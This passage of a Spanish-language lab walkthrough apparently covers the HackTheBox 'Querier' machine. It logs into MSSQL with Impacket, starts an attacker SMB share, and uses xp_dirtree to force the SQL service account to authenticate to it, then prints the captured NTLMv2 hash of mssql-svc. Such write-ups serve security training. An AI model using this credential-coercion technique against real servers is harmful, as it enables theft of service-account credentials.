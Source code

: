 ```
# mssqlclient.py WORKGROUP/reporting@10.129.255.12 -windows-auth                 
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (QUERIER\reporting  reporting@volume)> 
```

## MSSQL Exploitation

Nos `creamos` un `servidor smb`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

`Hacemos` una `petición` a un `recurso` de `nuestra máquina `

```
SQL (QUERIER\reporting  reporting@volume)> xp_dirtree \\10.10.16.23\smbFolder\test
subdirectory   depth   file   
------------   -----   ---- 
```

`Obtenemos` el hash `NTLMV2` del usuario `mssql-svc`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
08/24/2024 02:26:24 PM: INFO: Config file parsed
08/24/2024 02:26:27 PM: INFO: Incoming connection (10.129.255.12,49676)
08/24/2024 02:26:27 PM: INFO: AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
08/24/2024 02:26:27 PM: INFO: User QUERIER\mssql-svc authenticated successfully
08/24/2024 02:26:27 PM: INFO: mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:6f7d92da5c497d4dc478f2d9820a5467:0101000000000000809b28d720f6da01714567ea86b566a700000000010010005400710052004700540069006a004500030010005400710052004700540069006a0045000200100077007a006e0064006d006200410051000400100077007a006e0064006d0062004100510007000800809b28d720f6da01060004000200000008003000300000000000000000000000003000008cb280c24fe8618b3d55ffd1d66821547a1a40f659307e2a2169e553d92b53100a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0032003300000000000000000000000000
08/24/2024 02:26:27 PM: INFO: Connecting Share(1:smbFolder)
08/24/2024 02:26:27 PM: INFO: AUTHENTICATE_MESSAGE (\,QUERIER)
08/24/2024 02:26:27 PM: INFO: User QUERIER\ authenticated successfully
08/24/2024 02:26:27 PM: INFO: :::00::aaaaaaaaaaaaaaaa
08/24/2024 02:26:40 PM: INFO: Disconnecting Share(1:smbFolder)
08/24/2024 02:26:40 PM: INFO: Closing down connection (10.129.255.12,49676)
08/24/2024 02:26:40 PM: INFO: Remaining connections []
```
